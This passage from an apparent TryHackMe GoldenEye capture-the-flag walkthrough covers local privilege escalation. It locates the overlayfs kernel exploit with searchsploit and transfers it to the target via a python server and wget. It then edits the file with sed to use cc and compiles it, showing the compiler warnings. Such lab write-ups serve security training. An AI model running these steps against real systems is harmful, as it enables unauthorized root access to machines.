 You can download the exploit from here: https://www.exploit-db.com/exploits/37292

I searched for the exploit using `searchsploit`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ searchsploit kernel 3.13 overlayfs
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Pri | linux/local/37293.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

We are going to use the c script.

### 4.4 - Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!

#### What development tools are installed on the machine?

Now we need to transfer the exploit to the target machine. Start a python server and use `wget` on the target machine and transfer it.

Next I tried to compile the exploit, but `gcc` isn't available on the target machine, but `cc` is:

~~~
www-data@ubuntu:/$ which cc
/usr/bin/cc
~~~

Let's modify the code to replace `gcc` with `cc`. I used `sed` on the traget machine or you can change it using an IDE on your machine and reupload it.

~~~
www-data@ubuntu:/tmp$ sed -i "s/gcc/cc/g" exploit.c
~~~

Now we can compile it:

~~~
www-data@ubuntu:/tmp$ cc exploit.c -o exploit
exploit.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
exploit.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
exploit.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
exploit.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
exploit.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
~~~